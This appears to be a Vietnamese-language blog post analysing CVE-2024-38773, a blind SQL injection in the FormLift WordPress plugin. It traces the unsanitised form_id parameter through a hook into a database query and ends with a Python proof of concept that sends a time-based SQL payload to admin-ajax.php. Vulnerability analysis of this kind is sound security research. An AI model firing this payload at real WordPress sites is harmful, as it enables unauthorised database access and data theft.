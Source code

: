 ```yaml
---
layout: post
title:  "CVE-2024-38773 Analysis"
date:   2025-10-30 21:44:56 +0700
categories: wordpress
---
```

# Info:

Type: Blind SQL Injection

Plugin Name: **FormLift for Infusionsoft Web Forms**

Version: < 7.5.18

**Base Score:** [**9.8 CRITICAL**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2024-38773&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)

**Vector:**  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H


WPScan: [WPSCAN](https://wpscan.com/vulnerability/907f2dfb-90eb-4420-a845-b7260e64ea45/)

# PoC:

Tại hàm `formlift_submitV2` trong file `/wp-content/plugins/formlift/modules/form/submit.php`, phát hiện tham số `$formId` được nhận trực tiếp từ `$_POST[’form_id’]` mà không thực hiện lọc dữ liệu

![image.png](/assets/images/CVE-2024-38773/image-1.png)

Sau khi biến `$formId`  được gán dữ liệu, hàm `do_acction` sẽ gọi đến  hook **`formlift_before_submit`.** Khi `do_action()` được gọi, mọi hàm đã đăng ký với hook đó đều sẽ được thực thi. 

Kiểm tra trong source code, phát hiện hàm **`formlift_before_submit`**được đăng kí xử lý khi `do_action( 'formlift_before_submit', $formId );` được gọi. 

![image.png](/assets/images/CVE-2024-38773/image-2.png)

Hàm **`formlift_before_submit`** nhận vào tham số `formID` với giá trị được truyền vào từ hàm `do_action(…)`. Biến `formId` được truyền trực tiếp  vào hàm query dữ liệu `formlift_get_form_impressions`

![image.png](/assets/images/CVE-2024-38773/image-3.png)

PoC check

```python
import requests
from datetime import datetime, timezone
import time

url = "http://localhost:8080/wp-admin/admin-ajax.php"

data = {
    "action": "formlift_submit_form",
    "form_id": "1 OR IF(MID(@@version,1,1)=8,sleep(2),1)=2" // check version 8
}

# Record start time (timezone-aware)
start_dt = datetime.now(timezone.utc)
start_ts = time.time()
print(f"Request start: {start_dt.isoformat()} (UTC)")

response = requests.post(url,  data=data)

# Record end time and compute duration
end_dt = datetime.now(timezone.utc)
end_ts = time.time()
duration_ms = (end_ts - start_ts) * 1000
print(f"Request end:   {end_dt.isoformat()} (UTC)")
print(f"Duration: {duration_ms:.2f} ms | Status: {response.status_code}")

print("--- response body ---")
print(response.text)
```

![image.png](/assets/images/CVE-2024-38773/image-4.png)